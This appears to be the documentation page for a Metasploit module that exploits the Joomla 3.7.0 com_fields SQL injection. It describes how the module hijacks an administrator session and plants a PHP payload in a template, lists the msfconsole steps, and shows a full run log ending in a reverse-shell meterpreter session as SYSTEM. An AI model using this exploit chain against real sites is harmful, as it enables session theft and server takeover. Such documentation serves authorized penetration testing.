 ## Vulnerable Application

  This module exploits a SQL Injection vulnerability in the `com_fields` component which was introduced to the core of Joomla in version 3.7.0.
  With the SQLi, it's possible to enumerate cookies of Administrator and Super User users, and hijack one of their sessions. If no Super User is authenticated, the RCE portion will not work. If a session hijack is available, one of the website templates is identified, and our payload is added to the template as a new file, and then executed.

## Verification Steps


  1. Start msfconsole
  2. Do: `use exploit/unix/webapp/joomla_comfields_sqli_rce`
  3. Do: `set rhost [ip]`
  4. Do: `set tageturi [uri]`
  5. Do: `exploit`
  6. Get a shell

## Scenarios

### Joomla 3.7.0 on Windows 7 SP1 with Super User authenticated

```
msf5 exploit(unix/webapp/joomla_comfields_sqli_rce) > run

[*] Started reverse TCP handler on 172.22.222.138:4444
[*] 172.22.222.122:80 - Retrieved table prefix [ unqi0 ]
[*] 172.22.222.122:80 - Retrieved cookie [ ejn9i2c5srk6gchhai4cikdkm3 ]
[*] 172.22.222.122:80 - Retrieved unauthenticated cookie [ 33effe3d96e4c5e749f33b9d639ca36b ]
[+] 172.22.222.122:80 - Successfully authenticated
[*] 172.22.222.122:80 - Creating file [ zM8ZvIAAwxE.php ]
[*] 172.22.222.122:80 - Following redirect to [ /joomlatest/administrator/index.php?option=com_templates&view=template&id=503&file=L3pNOFp2SUFBd3hFLnBocA%3D%3D ]
[*] 172.22.222.122:80 - Token [ df2760a9614efc2566917148ee379c42 ] retrieved
[*] 172.22.222.122:80 - Template path [ /templates/beez3/ ] retrieved
[*] 172.22.222.122:80 - Insert payload into file [ zM8ZvIAAwxE.php ]
[*] 172.22.222.122:80 - Payload data inserted into [ zM8ZvIAAwxE.php ]
[*] 172.22.222.122:80 - Executing payload
[*] Sending stage (37543 bytes) to 172.22.222.122
[+] Deleted zM8ZvIAAwxE.php

meterpreter > getuid
Server username: SYSTEM (0)
meterpreter > sysinfo
Computer    : WIN-V438RLMESAE
OS          : Windows NT WIN-V438RLMESAE 6.1 build 7601 (Windows 7 Professional Edition Service Pack 1) AMD64
Meterpreter : php/windows
meterpreter >
```
